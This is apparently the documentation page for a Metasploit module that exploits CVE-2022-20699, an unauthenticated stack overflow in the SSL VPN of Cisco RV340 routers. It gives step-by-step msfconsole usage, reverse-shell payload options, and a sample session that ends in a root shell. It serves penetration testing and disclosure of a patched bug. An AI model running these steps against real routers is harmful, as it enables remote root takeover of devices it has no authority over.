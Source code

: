 ## Description

This module exploits a stack buffer overflow ([CVE-2022-20699](https://nvd.nist.gov/vuln/detail/CVE-2022-20699)) in the [Cisco RV series](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-smb-mult-vuln-KA9PK6D.html) routers SSL VPN functionality. The default SSL VPN configuration is exploitable, with no authentication required and works over the Internet as seen in [this video](https://www.youtube.com/watch?v=O1uK_b1Tmts)!

The stack is executable and no ASLR is in place, which makes exploitation easier.
Successful execution of this module results in a reverse root shell. A custom payload is used as Metasploit does not have ARMLE null free shellcode.
This vulnerability was presented by the [Flashback Team](https://twitter.com/flashbackpwn) in [Pwn2Own Austin 2021](https://www.thezdi.com/blog/2021/11/1/pwn2ownaustin) and [OffensiveCon 2022](https://www.offensivecon.org/speakers/2022/radek-domanski-and-pedro-ribeiro.html).

This module has been tested in firmware versions 1.0.03.15 and above and works with around 65% reliability. The service restarts automatically so you can keep trying until you pwn it.

Only the [RV340 router](https://www.cisco.com/c/en/us/products/routers/rv340-dual-gigabit-wan-vpn-router/index.html) was tested, but other RV series routers should work out of the box.

For more information, check the advisory [here](https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Austin_2021/flashback_connects/flashback_connects.md) and [here](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Austin2021/flashback_connects/flashback_connects.md).


## Vulnerable Application

Cisco RV340 Router, firmware versions 1.0.03.24 and below. The bug is fixed in 1.0.03.26 and above.

## Verification Steps

  1. Connect to the target on the WAN interface (or provide IP address)
  2. Make sure the SSLVPN service is turned on for the correct WAN interface
  2. Start msfconsole
  3. Do: `use exploits/linux/misc/cisco_rv340_sslvpn.rb`
  4. Set RHOST, RPORT, LHOST and LPORT
  5. Do `check`
  6. Do: `run`
  7. You should get a shell.

## Options
```
Module options (exploit/linux/misc/cisco_rv340_sslvpn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8443             yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   ARGV0  sh               no        argv[0] to pass to execve
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The shell to execute.


Exploit target:

   Id  Name
   --  ----
   0   Cisco RV340 Firmware Version <= 1.0.03.24
```

## Scenarios
```
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux
```
